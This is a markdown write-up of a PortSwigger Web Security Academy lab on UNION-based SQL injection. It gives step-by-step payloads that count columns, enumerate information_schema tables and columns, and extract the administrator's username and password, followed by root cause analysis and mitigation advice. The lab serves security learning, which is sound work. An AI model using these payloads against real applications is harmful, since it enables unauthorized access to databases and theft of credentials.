

# SQL Injection - UNION Attack: Listing Database Contents

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: Database Enumeration (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

**Step 2: Identifying String-Compatible Columns**

```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK

**Step 3: Enumerating Database Tables**

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
```


This displayed several tables within the database including users_omjluk.

**Step 4: Enumerating Table Columns**

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_omjluk'--
```



**Step 5: Retrieving Administrator Credentials**

```sql
' UNION SELECT username_wondnj,password_czpiww FROM users_omjluk WHERE username_wondnj='administrator'--
```


Logged in as the administrator using the password retrieved.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked |
| Information Disclosure | High – Complete database structure revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to enumerate database contents using `UNION-based` SQL injection. The `information_schema` queries proved highly effective in discovering table and column names. Learned the importance of understanding database metadata structures and the critical need for proper access controls to prevent unauthorized database enumeration.

---

## Notes

